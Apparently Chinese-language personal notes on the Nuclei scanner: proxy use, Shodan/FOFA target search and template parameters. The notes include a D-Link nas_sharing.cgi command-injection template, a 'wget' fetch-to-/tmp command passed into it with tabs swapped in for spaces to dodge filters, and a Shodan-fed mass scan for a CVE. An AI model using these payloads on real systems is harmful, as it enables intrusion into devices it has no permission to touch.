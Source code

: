 # Nuclei

### 代理使用


```
-p, -proxy string[]        list of http/socks5 proxy to use (comma separated or file input)
```

eg:

```
nuclei -l xxx.txt -t xxx.yaml -p http://192.168.1.1:8080
```


### 与shodan的联动

```
export SHODAN_API_KEY=xxx
nuclei -id 'CVE-2021-26855' -uq 'vuln:CVE-2021-26855' -ue shodan
```

### 与fofa的联动

```
export FOFA_EMAIL=xxx
export FOFA_KEY=xxx
```

### 有用的命令

##### 代理加网络搜索引擎

```
nuclei -id CVE-2024-8877 -stats -uc -ul 3000 -ue shodan -p socks5://127.0.0.1:1080
```

##### 参数传递

```
...
  - method: GET
    path:
      - "{{BaseURL}}/cgi-bin/nas_sharing.cgi?user=mydlinkBRionyg&passwd=YWJjMTIzNDVjYmE&cmd=15&system={{base64(replace('{{cmd}}',' ','\x09'))}}"
...
```

```
 nuclei -t ./template.yaml -var cmd="wget xxxxxxxxxxx:2333" -u http://xxxxxxxx:80
```

### 有用的函数

- replace

将空格替换为tab符号

```
"{{replace('wget 127.0.0.1:2333 -O /tmp/aaaaa',' ','\x09')}}"
```

# 资料

Running Nuclei

https://docs.projectdiscovery.io/tools/nuclei/running#scan-on-internet-database

nuclei模板编写总结

https://www.cnblogs.com/backlion/p/18326684

学习笔记-nuclei

https://www.cnblogs.com/haidragon/p/16852363.html

Introduction to Nuclei Templates

https://docs.projectdiscovery.io/templates/introduction

Basic HTTP Protocol

https://docs.projectdiscovery.io/templates/protocols/http/basic-http

nuclei中文readme

https://github.com/projectdiscovery/nuclei/blob/dev/README_CN.md

参数传递

https://docs.projectdiscovery.io/cloud/scanning/parameters